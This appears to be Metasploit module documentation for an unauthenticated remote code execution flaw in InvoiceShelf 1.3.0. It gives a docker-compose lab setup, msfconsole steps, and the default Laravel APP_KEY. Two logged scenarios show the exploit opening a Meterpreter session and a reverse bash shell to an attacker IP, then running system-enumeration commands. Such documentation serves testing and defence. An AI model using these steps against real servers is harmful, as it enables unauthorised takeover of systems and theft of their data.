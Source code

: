 ## Vulnerable Application
InvoiceShelf is an open-source web & mobile app that helps you track expenses, payments, create professional
invoices & estimates and is based on the PHP framework Laravel.
InvoiceShelf has a Remote Code Execution vulnerability that allows remote unauthenticated attackers to conduct
PHP deserialization attacks. This is possible when the `SESSION_DRIVER=cookie` option is set on the default
InvoiceShelf .env file meaning that any session will be stored as a ciphered value inside a cookie.
These sessions are made from a specially crafted JSON containing serialized data which is then ciphered using
Laravel's encrypt() function.
An attacker in possession of the `APP_KEY` would therefore be able to retrieve the cookie, uncipher it and modify
the serialized data in order to get arbitrary deserialization on the affected server, allowing them to achieve
remote command execution. InvoiceShelf version `1.3.0` and lower is vulnerable.
As it allows remote code execution, adversaries could exploit this flaw to execute arbitrary commands,
potentially resulting in complete system compromise, data exfiltration, or unauthorized access
to sensitive information.

The following release was tested.
* InvoiceShelf `1.3.0` on Docker

## Installation steps to install InvoiceShelf on Docker
* Follow the instructions [here](https://docs.invoiceshelf.com/installation.html) for docker or manual install.
* Please ensure that `SESSION_DRIVER=cookie` is set to cookie.
* cp `.env.example` to `.env` and note down the `APP_KEY` setting.
* To make life easy, use the `docker-compose.yml` below to install a vulnerable InvoiceShell on Docker.
```
 #-------------------------------------------
 # InvoiceShelf MySQL docker-compose variant
 # Repo : https://github.com/InvoiceShelf/docker
 #-------------------------------------------

services:
  invoiceshelf_db:
    container_name: invoiceshelf_db
    image: mariadb:10
    environment:
      - MYSQL_DATABASE=invoiceshelf
      - MYSQL_USER=invoiceshelf
      - MYSQL_PASSWORD=Passw0rd
      - MARIADB_ALLOW_EMPTY_ROOT_PASSWORD=true
    expose:
      - 3306
    volumes:
      - mysql:/var/lib/mysql
    networks:
      - invoiceshelf
    restart: unless-stopped
    healthcheck:
      test: ["CMD", "mariadb-admin" ,"ping", "-h", "localhost"]
      timeout: 20s
      retries: 10

  invoiceshelf:
    image: invoiceshelf/invoiceshelf:1.3.0
    container_name: invoiceshelf
    ports:
      - 90:80
    volumes:
      - ./invoiceshelf_mysql/data:/data
      - ./invoiceshelf_mysql/conf:/conf
    networks:
      - invoiceshelf
    environment:
      # PHP timezone e.g. PHP_TZ=America/New_York
      - PHP_TZ=UTC
      - TIMEZONE=UTC
      - APP_NAME=Laravel
      - APP_ENV=local
      - APP_DEBUG=true
      - APP_URL=http://localhost:90
      - DB_CONNECTION=mysql
      - DB_HOST=invoiceshelf_db
      - DB_PORT=3306
      - DB_DATABASE=invoiceshelf
      - DB_USERNAME=invoiceshelf
      - DB_PASSWORD=Passw0rd
      - DB_PASSWORD_FILE=
      - CACHE_STORE=file
      - SESSION_DRIVER=cookie
      - SESSION_LIFETIME=1440
      - SESSION_ENCRYPT=false
      - SESSION_PATH=/
      - SESSION_DOMAIN=localhost
      - SANCTUM_STATEFUL_DOMAINS=localhost:90
      - STARTUP_DELAY=
      #- MAIL_DRIVER=smtp
      #- MAIL_HOST=smtp.mailtrap.io
      #- MAIL_PORT=2525
      #- MAIL_USERNAME=null
      #- MAIL_PASSWORD=null
      #- MAIL_PASSWORD_FILE=<filename>
      #- MAIL_ENCRYPTION=null
    restart: unless-stopped
    depends_on:
      - invoiceshelf_db

networks:
  invoiceshelf:

volumes:
  mysql:
```
* Execute `docker-compose up -d`
* You can access the InvoiceShelf application at http://localhost:90

## Verification Steps
- [ ] Start `msfconsole`
- [ ] `use exploit/linux/http/invoiceshelf_unauth_rce_cve_2024_55556`
- [ ] `set rhosts <ip-target>`
- [ ] `set rport <port>`
- [ ] `set lhost <attacker-ip>`
- [ ] `set target <0=PHP Command, 1=Unix/Linux Command>`
- [ ] `exploit`
- [ ] you should get a `reverse shell` or `Meterpreter` session depending on the `payload` and `target` settings

## Options
### APP_KEY
This option is required if the BRUTE_FORCE option is not used.
It is the Laravel APP_KEY with a default key: `base64:kgk/4DW1vEVy7aEvet5FPp5un6PIGe/so8H0mvoUtW0=`.

### BRUTEFORCE
This option is optional and is a text file with a list of APP_KEYs, one per line for a bruteforce attack.

## Scenarios
### InvoiceShelf 1.3.0 on Docker -  PHP Command target
Attack scenario: use the default Laravel APP_KEY preset in the option APP_KEY.
```msf
msf6 exploit(linux/http/invoiceshelf_unauth_rce_cve_2024_55556) > set rhosts 192.168.201.21
rhosts => 192.168.201.21
msf6 exploit(linux/http/invoiceshelf_unauth_rce_cve_2024_55556) > set lhost 192.168.201.8
lhost => 192.168.201.8
msf6 exploit(linux/http/invoiceshelf_unauth_rce_cve_2024_55556) > rexploit
[*] Reloading module...
[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.21:90 can be exploited.
[+] The target appears to be vulnerable. InvoiceShelf 1.3.0
[*] Lets check if the APP_KEY(s) is/are valid by decrypting the cookie.
[*] Grabbing the cookies.
[+] APP_KEY is valid: base64:kgk/4DW1vEVy7aEvet5FPp5un6PIGe/so8H0mvoUtW0=
[+] Unciphered value: f80a79e26a4e80e6829ca82e9323f17dcbf8226b|{"data":"a:3:{s:6:\"_token\";s:40:\"4Fgr0aT0N85gxRmu4PoVqPzHU7XOH23NCrivJO9x\";s:9:\"_previous\";a:1:{s:3:\"url\";s:40:\"http:\/\/192.168.201.21:90\/login?%2Flogin=\";}s:6:\"_flash\";a:2:{s:3:\"old\";a:0:{}s:3:\"new\";a:0:{}}}","expires":1741454360}
[*] Generate an encrypted serialized cookie payload with our cracked APP_KEY.
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (40004 bytes) to 192.168.201.21
[*] Meterpreter session 2 opened (192.168.201.8:4444 -> 192.168.201.21:54194) at 2025-03-07 17:19:21 +0000

meterpreter > getuid
Server username: www-data
meterpreter > pwd
/var/www/html/InvoiceShelf/public
meterpreter > sysinfo
Computer    : 72fe563832ca
OS          : Linux 72fe563832ca 6.12.5-linuxkit #1 SMP PREEMPT_DYNAMIC Tue Jan 21 10:25:35 UTC 2025 x86_64
Meterpreter : php/linux
meterpreter >
```
###  InvoiceShelf 1.3.0 on Docker - Unix/Linux Command target
Attack scenario: use the BRUTEFORCE option with a list of APP_KEYS in a text file.
```msf
msf6 exploit(linux/http/invoiceshelf_unauth_rce_cve_2024_55556) > set target 1
target => 1
msf6 exploit(linux/http/invoiceshelf_unauth_rce_cve_2024_55556) > set BRUTEFORCE /root/laravel-crypto-killer/wordlists/crater.txt
BRUTEFORCE => /root/laravel-crypto-killer/wordlists/crater.txt
msf6 exploit(linux/http/invoiceshelf_unauth_rce_cve_2024_55556) > rexploit
[*] Reloading module...
[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.21:90 can be exploited.
[+] The target appears to be vulnerable. InvoiceShelf 1.3.0
[*] Lets check if the APP_KEY(s) is/are valid by decrypting the cookie.
[*] Grabbing the cookies.
[*] Starting bruteforce decryption with APP_KEYS listed in /root/laravel-crypto-killer/wordlists/crater.txt.
[+] APP_KEY is valid: base64:kgk/4DW1vEVy7aEvet5FPp5un6PIGe/so8H0mvoUtW0=
[+] Unciphered value: ce0776f8682b66a8407e6a3d62622642ec8fc685|{"data":"a:3:{s:6:\"_token\";s:40:\"Q2zYE5unWqTpdLwFwqgKxBVubiDI95ceLObsbXXV\";s:9:\"_previous\";a:1:{s:3:\"url\";s:40:\"http:\/\/192.168.201.21:90\/login?%2Flogin=\";}s:6:\"_flash\";a:2:{s:3:\"old\";a:0:{}s:3:\"new\";a:0:{}}}","expires":1741454687}
[*] Generate an encrypted serialized cookie payload with our cracked APP_KEY.
[*] Executing Unix/Linux Command for cmd/unix/reverse_bash
[*] Command shell session 3 opened (192.168.201.8:4444 -> 192.168.201.21:54229) at 2025-03-07 17:24:53 +0000

id
uid=33(www-data) gid=33(www-data) groups=33(www-data),1000(invoiceshelf)
uname -a
Linux 72fe563832ca 6.12.5-linuxkit #1 SMP PREEMPT_DYNAMIC Tue Jan 21 10:25:35 UTC 2025 x86_64 GNU/Linux
pwd
/var/www/html/InvoiceShelf/public
```

## Limitations
No limitations.
